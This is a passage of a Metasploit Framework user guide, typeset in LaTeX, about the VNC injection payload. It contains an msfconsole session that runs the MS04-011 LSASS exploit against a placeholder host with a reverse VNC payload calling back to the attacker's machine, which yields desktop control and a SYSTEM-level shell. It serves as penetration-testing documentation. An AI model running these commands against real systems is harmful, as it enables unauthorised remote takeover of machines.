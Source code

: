 \documentclass{report}
\begin{document}
\par
The VNC server will attempt to obtain full access to the current interactive
desktop. If the first attempt fails, it will call RevertToSelf() and then try
the attempt again. If it still fails to obtain full access to this desktop, it
will fall back to a read-only mode. In read-only mode, the Framework user can
view the contents of the desktop, but not interact with it. If full access was
obtained, the VNC server will spawn a command shell on the desktop with the
privileges of the exploited service. This is useful in situations where an
unprivileged user is on the interactive desktop, but the exploited service is
running with System privileges.  

\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a start menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch. 

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the data
subdirectory of the Framework installation and is named 'vncdll.dll'. The source
code of the DLL can be found in the src/shellcode/win32/dllinject/vncinject
subdirectory of the Framework installation. 

\begin{verbatim}
msf > use lsass_ms04_011
msf lsass_ms04_011 > set RHOST some.vuln.host
RHOST -> some.vuln.host
msf lsass_ms04_011 > set PAYLOAD win32_reverse_vncinject
PAYLOAD -> win32_reverse_vncinject
msf lsass_ms04_011(win32_reverse_vncinject) > set LHOST your.own.ip
LHOST -> your.own.ip
msf lsass_ms04_011(win32_reverse_vncinject) > set LPORT 4321
LPORT -> 4321
msf lsass_ms04_011(win32_reverse_vncinject) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 
\end{document}
